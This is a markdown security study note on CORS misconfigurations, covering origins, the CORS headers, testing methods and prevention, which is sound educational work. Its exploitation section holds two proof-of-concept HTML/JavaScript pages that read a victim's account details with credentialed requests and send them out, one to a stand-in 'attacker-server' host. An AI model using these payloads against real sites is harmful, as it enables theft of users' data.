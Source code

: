 # CORS
---

## Prerequisites

### Same-Origin Policy (SOP)
Rule that is enforced by browsers to control access to data between web applications
* This does not prevent **writing** between web applications, it prevents **reading** between web applications
* Access is determined based on the origin

### What Is An Origin?
Origin is defined by the scheme (protocol), hostname (domain), and port of the URL used to access it.

https(scheme)://securitynotesfordummies.com(host):443(port)

---

## What is Cross-Origin Resource Sharing (CORS)?
CORS is a mechanism that uses **HTTP headers** to define origins that the browser permit loading resources

* CORS makes use of 2 HTTP headers:
    * Access-Control-Allow-Origin
    * Access-Control-Allow-Credentials

### Access-Control-Allow-Origin Header
The Access-Control-Allow-Origin response header indicates whether the response can be shared with requesting code from the given origin

**Syntax**
```xml
Access-Control-Allow-Origin: *
Access-Control-Allow-Origin: <origin>
Access-Control-Allow-Origin: null
```

### Access-Control-Allow-Credentials Header
The Access-Control-Allow-Credentials response header allows cookies (or other user credentials) to be included in cross-origin requests

**Syntax**
```xml
Access-Control-Allow-Credentials: true
```

**NOTE:** If the server is configured with the wildcard ("*") as the value of Access-Control-Allow-Origin header, then the use of credentials is not allowed. 

### CORS Vulnerabilities
* CORS vulnerabilities arise from CORS configuration issues
* Arise from restrictions on available options to set the **Access-Control-Allow-Origin** header
```xml
Access-Control-Allow-Origin: *
Access-Control-Allow-Origin: <origin>
Access-Control-Allow-Origin: null
```
* Forces developers to use **dynamic generation**

CORS vulnerabilities arise from flaws in the way that dynamic generation is implemented: 
* Server-generated Access-Control-Allow-Origin header from client-specified Origin header
* Error parsing Origin headers
    * Granting access to all domains that end in a specific string
        * Example: bank.com
        * Bypass: maliciousbank.com
    * Granting access to all domains that begin with a specific string
        * Example: bank.com
        * Bypass: bank.com.malicious.com
* Whitelisted null origin value

### Impact of CORS Vulnerabilities
* Depends on the application that is being exploited
    * Confidentiality – it can be None / Partial (Low) / High
    * Integrity – usually either Partial or High
    * Availability – can be None / Partial (Low) / High
* Remote code execution on the server

---

## How To Find CORS Vulnerabilities?

### Black-Box Testing
* Map the application
* Test the application for dynamic generation
    * Does it reflect the user-suplied ACAO header?
    * Does it only validate on the start/end of a specific string?
    * Does it allow the null origin?
    * Does it restrict the protocol?
    * Does it allow credentials?
* Once you have determined that a CORS vulnerability exists, review the application's functionality to determine how you cna prove impact

### White-Box Testing
* Identify the framework/technologies that is being used by the application
* Find out how this specific technology allows for CORS configuration
* Review code to identify any misconfigurations in CORS rules

## How To Exploit CORS Vulnerabilities?
* If the application allows for credentials: 
    * Server generated user supplied origin
    * Validates on the start/end of a specific string

```javascript
<html>
<body>
<h1>Hello World!</h1>
<script>
var xhr = new XMLHttpRequest();
var url = "https://vulnerable-site.com"
xhr.onreadystatechange = function() {
if (xhr.readyState == XMLHttpRequest.DONE) {
fetch("/log?key=" + xhr.responseText)
}
}
xhr.open('GET', url + "/accountDetails", true);
xhr.withCredentials = true;
xhr.send(null);
</script>
</body>
</html>
```

* If the application allows for credentials: 
    * Accepts the null origin

```javascript
<html>
<body>
<h1>Hello World!</h1>
<iframe style="display: none;" sandbox="allow-scripts" srcdoc="
<script>
var xhr = new XMLHttpRequest();
var url = 'https://vulnerable-site.com'
xhr.onreadystatechange = function() {
if (xhr.readyState == XMLHttpRequest.DONE) {
fetch('http://attacker-server:4444/log?key=' + xhr.responseText)
}
}
xhr.open('GET', url + '/accountDetails', true);
xhr.withCredentials = true;
xhr.send(null);
</script>"></iframe>
</body>
</html>
```

* If the application does not allow for credentials
    * What security impact does that have on the application?

---

## How To Prevent CORS Vulnerabilities?
* Proper configuration of cross-origin requests
* Only allow trusted sites
* Avoid whitelisting null
* Avoid wildcards in internal networks

---

## Resources
* [Web Security Academy - Cross-origin resource sharing (CORS)](https://portswigger.net/web-security/cors)
* [AppSec EU 2017 Exploiting CORS Misconfigurations For Bitcoins And Bounties by James Kettle](https://www.youtube.com/watch?v=wgkj4ZgxI4c&ab_channel=OWASPFoundation)
* [Exploiting CORS misconfigurations for Bitcoins and bounties](https://portswigger.net/research/exploiting-cors-misconfigurations-for-bitcoins-and-bounties)
* [JetBrains IDE Remote Code Execution and Local File Disclosure](http://blog.saynotolinux.com/blog/2016/08/15/jetbrains-ide-remote-code-execution-and-local-file-disclosure-vulnerability-analysis/)
* [Advanced CORS Exploitation Techniques](https://www.corben.io/advanced-cors-techniques/)